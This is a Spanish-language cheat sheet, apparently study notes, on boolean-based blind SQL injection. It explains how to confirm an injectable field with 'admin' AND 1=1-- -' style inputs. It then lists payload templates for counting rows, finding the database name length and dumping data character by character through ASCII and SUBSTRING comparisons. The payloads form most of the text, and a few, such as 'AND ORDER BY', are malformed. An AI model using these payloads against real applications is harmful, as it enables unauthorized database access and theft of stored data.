 ### Descubriendo la vulnerabilidad

En este caso buscamos un campo donde podamos validar una respuesta. Luego buscamos una respuesta correcta(true), con esta respuesta correcta, buscamos agregar más lógica a la query con el fin de analizar si un segundo caso se cumple:

    admin' AND 1=1-- -
    admin' AND 1=0-- -

##### Explicación de la lógica:

1. Una vez que validamos que tenemos un dato que es verdadero, agregamos a la query un boolean que sea verdadero. Si esto no resulta falso podemos inferir que el segundo caso (el boolean) está siendo analizado puesto que si tomara todo lo ingresado como un dato completo ya no tendríamos "admin" como dato sino "admin' and...."
2. Inyectamos ahora un caso booleano que de falso. Si la respuesta es Falsa, entonces podemos asegurar que el segundo caso es validado.
3. Utilizamos el segundo caso para hacer querys que puedan darnos una pista de los datos que se están manejando.

### validar cantidad de campos en una tabla

        <dato>' AND (select count(*) from users) > 0-- -

##### otra opción

        <dato>' AND ORDER BY <numero>

### Conseguir el length de un dato de la tabla

        <dato>' AND LEN(<campo a consultar del usuario>)=<length>-- -

### Conseguir el length del nombre de la db

        <dato>’ AND LENGTH(DATABASE())=<length>-- -

### Dumpear el nombre de una DB:

        <dato>’ AND ASCII(SUBSTR(DATABASE(),<index>,X))=<Valor ASCII>

        
### Dumpear los caracteres dentro de un campo

Podemos trabajarlo con valores ASCII(en números del 32 al 127) y luego decodearlos para tener el caracter legible

        <dato>'+AND+ASCII(SUBSTRING(<campo>,<index_del_char>,1))=<valor ASCII>--+-

Una buena página para hacer esta decodificación una vez logrados los resultados(recordar copiar separados los ASCII, luego la página los junta:

https://www.duplichecker.com/ascii-to-text.php
